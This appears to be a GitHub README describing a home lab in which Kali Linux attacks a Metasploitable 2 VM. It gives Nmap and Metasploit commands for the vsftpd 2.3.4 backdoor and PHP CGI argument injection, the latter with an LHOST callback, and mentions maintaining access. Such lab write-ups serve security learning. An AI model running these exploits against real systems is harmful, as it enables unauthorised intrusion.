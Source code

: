 <h1>Metasploit Cybersecurity Home Lab</h1>

<h2>Description</h2>
<p>In this lab, I set up and configured Metasploit to exploit vulnerabilities in a virtual environment using VirtualBox and Kali Linux. This setup simulates various attack vectors</p>

<h2>Environments Used</h2>
<ul>
    <li><b>Host Operating System</b>: Windows 11</li>
    <li><b>Virtual Machines</b>:
        <ul>
            <li>Metasploitable 2</li>
            <li>Kali Linux</li>
        </ul>
    </li>
</ul>

<h2>Lab Walk-through</h2>

<h3>Setting Up the Environment</h3>
<ol>
    <li><b>Downloading Metasploitable 2</b>: Obtain the Metasploitable 2 virtual machine.</li>
    <li><b>Setting Up Virtual Machines</b>: Import the Metasploitable 2 virtual machine into VirtualBox.</li>
</ol>

<h3>Configuring VirtualBox VM</h3>
<p>Once imported, configure the network settings of both Kali Linux and Metasploitable 2 to be on the same internal network, ensuring they can communicate with each other.</p>

<h3>Nmap Scanning</h3>
<p>I used Nmap to scan the target machine (Metasploitable 2) for open ports and services. This helps in identifying potential vulnerabilities that can be exploited.</p>

<pre><code>sudo nmap -sV -O 10.0.2.4</code></pre>

<p align="center">
    <img src="img/Screenshot 2024-06-24 184306.png">


<h3>Launching Metasploit on Kali Linux</h3>
<ol>
    <li><b>Starting Metasploit Console</b>:</li>
</ol>

<pre><code>msfconsole</code></pre>

<p align="center">
    <img src="img/Screenshot 2024-06-24 185156.png"/>
</p>

<h3>Exploiting Vulnerabilities</h3>

<ol>
    <li><b>Using vsftpd 2.3.4 Backdoor</b>:</li>
</ol>

<pre><code>
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.0.2.4
exploit
</code></pre>

<p align="center">
    <img src="img/Screenshot 2024-06-24 185515.png"/>
<p align="center">
    <img src="img/Screenshot 2024-06-24 185530.png"/>
</p>

<ol start="2">
    <li><b>Directory Scanning and PHP CGI Argument Injection</b>:</li>
</ol>

<pre><code>
use auxiliary/scanner/http/dir_scanner
set RHOSTS 10.0.2.4
exploit

use exploit/multi/http/php_cgi_arg_injection
set RHOSTS 10.0.2.4
set LHOST 10.0.2.5
exploit
</code></pre>

<p align="center">
    <img src="img/Screenshot 2024-06-24 190945.png"/>
</p>

<h2>Additional Steps</h2>
<ul>
    <li><b>Enumerating Services and Vulnerabilities</b>: Use Metasploit's auxiliary modules to scan and identify services running on the target.</li>
    <li><b>Post-exploitation</b>: Gather information and maintain access on the compromised system.</li>
</ul>

</body>
</html>
<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
-->
